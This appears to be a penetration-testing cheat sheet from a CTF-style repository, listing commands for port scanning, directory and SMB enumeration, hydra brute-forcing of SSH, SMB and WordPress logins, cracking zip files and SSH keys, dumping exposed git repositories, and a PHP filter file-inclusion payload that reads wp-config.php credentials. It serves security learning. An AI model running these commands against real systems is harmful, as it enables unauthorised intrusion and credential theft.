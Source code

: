 # Resources

* GTFOBins - https://gtfobins.github.io/
* Payloads All The Things - https://github.com/swisskyrepo/PayloadsAllTheThings


## Enumerations 

### Basic Scan

* Agressive scan - Will perform OS detection and version detection
    * `nmap -A -oN nmap.txt target`
* Run vulnerabilities scripts
    * `nmap -script vuln -oN nmapVuln.txt target`
* Scann all the ports
    * `nmap -A -p- -oN nmapFull.txt target`

### Enumerate Web Site Folders

* `gobuster dir -e -u http://target/ -t30 -w /usr/share/dirb/wordlists/common.txt  | tee gobuster.txt`
* `gobuster dir -e -u http://target/ -t30 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  | tee gobuster2.txt`
* `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hw 54 -t10 "target/FUZZ"`

### Find SubDomains
* `wfuzz -c -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -t30 --hw 290 -H "Host:FUZZ.somedomain.com" "http://somedomain.com/"`

### Enumerate SMB
* `enum4linux -a IP | tee enum4linux.txt`
* `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse -oN nmapSamba.txt IP`
* `smbmap -H IP`
* `smbclient -U guest \\\\10.10.166.254\\IPC$`

### Enumerate Mounts
* `nmap -p PORT --script=nfs-ls,nfs-statfs,nfs-showmount -oN nmapRpc.txt IP`
    * To mount: `sudo mount -t nfs target:$SOURCE_PATH $DESTINATION_PATH`
* `showmount -e target`

### Enumerate Wordpress Site
* Get users: `wpscan --url http://target/ -e vp,u`
* Get Plugins `$ nmap -sV --script http-wordpress-enum --script-args search-limit=10000 -p 80 target `

### Web Site Scan

* nikto: `nikto -h http://target/`


## Brute Forcing

### Brute Force Web Site Password
* `hydra -l SomeUser -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t64 -m '/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect' IP http-post-form`
* Basic auth: `hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f -e snr -u -t64 10.10.174.130 http-head`
* Combine wordlists: `/usr/lib/hashcat-utils/combinator.bin colors.txt numbers.txt > wordlist.txt`

#### Wordpress
* `hydra -l wade -P /usr/share/wordlists/rockyou.txt -u -f -t64 -m '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fretro%2Fwp-admin%2F&testcookie=1:S=Location' http://target/ http-post-form -v -e snr`
* `wpscan --url http://target/ --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50`

### SSH
* `hydra -l root -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t32 target ssh`

### SMB
`hydra -l fox -P /usr/share/wordlists/rockyou.txt -u -e snr target smb`

### Brute Force Zip File
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip 

### Break ssh Key Password
```sh
python ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 
```

## Run A Python Web Server
sudo python3 -m http.server 80

## SSH Tunnel
ssh -L LOCALPORT:localhost:REMOTEPORT user@domain.com

## Dump Git From Web Site
https://github.com/internetwache/GitTools

```sh
git clone http://pwd.harder.local/.git/
./GitTools/Dumper/gitdumper.sh http://pwd.harder.local/.git/ gitFolder
./GitTools/Extractor/extractor.sh gitFolder/ gitExtracted
```

## File Inclusion

* Read a PHP file in base64 when include/require is used:
	* http://somesite.com/?VulnerableParameter=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php